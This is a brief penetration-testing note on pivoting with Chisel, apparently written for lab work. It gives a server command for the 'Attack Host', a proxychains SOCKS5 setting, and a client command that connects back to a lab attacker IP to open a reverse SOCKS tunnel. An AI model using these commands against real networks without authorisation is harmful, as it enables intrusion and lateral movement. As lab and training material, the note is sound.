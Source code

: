# Chisel

***

[Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

[video](https://www.youtube.com/watch?v=Yp4oxoQIBAM\&t=1469s)

## Running chisel Server on our Attack Host

```bash
sudo ./chisel server --reverse -v -p 1234 --socks5
```

### proxychains.conf

```bash
tail -f /etc/proxychains.conf 

...
socks5 127.0.0.1 1080
```

## Connect the chisel client to our Attack Host

```bash
./chisel client -v 10.10.14.17:1234 R:socks
```
